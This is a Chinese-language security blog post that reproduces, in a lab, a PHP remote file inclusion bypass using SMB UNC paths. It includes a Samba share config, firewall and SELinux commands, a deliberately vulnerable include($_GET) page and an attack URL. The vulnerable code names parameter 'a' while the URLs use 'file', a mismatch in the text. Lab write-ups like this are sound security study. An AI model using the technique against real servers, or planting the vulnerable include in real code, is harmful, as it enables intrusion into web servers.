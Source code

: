 ```yaml
---
title: 用SMB绕过php远程文件包含限制的实践测试
date: 2019-05-21 23:26:43
tags:
---
```


### 前言
看到freebuf上的《[RFI绕过URL包含限制Getshell](https://www.freebuf.com/articles/web/203442.html)》和先知社区上的《[通过SMB造成远程文件包含（双Off情况）](https://xz.aliyun.com/t/5139)》这两篇文章，说是利用SMB协议可以绕过php对远程文件包含的限制。

默认情况下，php.ini当中`allow_url_include`为`off`，是没有办法对一个文件包含漏洞进行远程文件包含的，更何况连`allow_url_fopen`都为`off`。

看完这两篇文章，可以想到PHP肯定是没有考虑到SMB协议`\\192.168.1.1\test.php`这种情况，认为这种情况是本地文件路径，但是在支持SMB客户端的系统下却成了远程文件包含漏洞。

同时我第一时间想到这里用的特性，实际上和[MySQL利用DNS实现注入总结](https://l4yn3.github.io/2019/04/05/MySQL%E5%88%A9%E7%94%A8DNS%E5%AE%9E%E7%8E%B0%E6%B3%A8%E5%85%A5%E6%80%BB%E7%BB%93/)是一样的，应该都是在Windows web server下才能触发的漏洞。

### 实际测试
#### 1. 在CentOS 7 下搭建SAMBA服务
SambaA: `192.168.31.140`为Centos 7 的samba服务器

WinWebB: `192.168.31.139`Windows 10 的PHP WEB Server


![](../uploads/smb1.png)

编辑smb配置文件

```
[global]
workgroup = WORKGROUP
server string = Samba Server %v
netbios name = indishell-lab
security = user
map to guest = bad user
name resolve order = bcast host
dns proxy = no
bind interfaces only = yes

[icatest]
path = /var/www/html/pub
writable = no
guest ok = yes
guest only = yes
read only = yes
directory mode = 0555
force user = nobody
~
```

重启smb服务

```
service smb restart
```

发现其他机器访问不到，iptables在作怪，将445和139端口加入白名单

```
iptables -I INPUT 1 -p tcp --dport 445 -j ACCEPT
iptables -I INPUT 1 -p tcp --dport 139 -j ACCEPT
```

在其它机器上nmap查看端口，可以发现445端口了，安装成功。

在另外一台windows 10主机上运行处输入`\\192.168.31.140\icatest\`可以匿名访问。

#### 2. 在SMB共享目录里写入phpinfo测试文件
SambaA共享目录`/var/www/html/pub/`下执行：

```
touch shell.php
```
内容为：

```
<?php
phpinfo();
```

在WinWebB下运行处输入`\\192.168.31.140\icatest\`打开发现共享目录没有内容，可以刚才我们明明写入了`shell.php`。是SecLinux在作怪：

在SambaA命令行输入

```
setenforce 0
```
关闭seclinux发现出现`shell.php`了。


### 3. 测试远程文件包含

在WinWebB机器上的web目录里写入php文件`test.php`

```
<?php
include($_GET['a']);
```

接着关闭php.ini的`allow_url_include`为`off`和`allow_url_fopen`

访问`http://localhost/test.php?file=\\192.168.31.140\icatest\shell.php`

文件包含成功。

### 4. 更换Web Server平台为Mac

利用smb可以再刚才的WinWebB 的 Windows 10机器上成功的进行了远程文件包含。

我们现在更换Web Server为Mac试一下。

在MacWeb Server C 下同样执行`3`中的操作。

然后访问`http://localhost/test.php?file=\\192.168.31.140\icatest\shell.php`直接报错。

### 5. 结论

如同开始所预想的，这个漏洞和[MySQL利用DNS实现注入总结](https://l4yn3.github.io/2019/04/05/MySQL%E5%88%A9%E7%94%A8DNS%E5%AE%9E%E7%8E%B0%E6%B3%A8%E5%85%A5%E6%80%BB%E7%BB%93/)一样，还是利用了Windows 平台对于SMB支持的特性。在默认不支持SMB协议的Linux和Unix平台无法利用。

凡事要自己动手测试，才能得到真正结论。

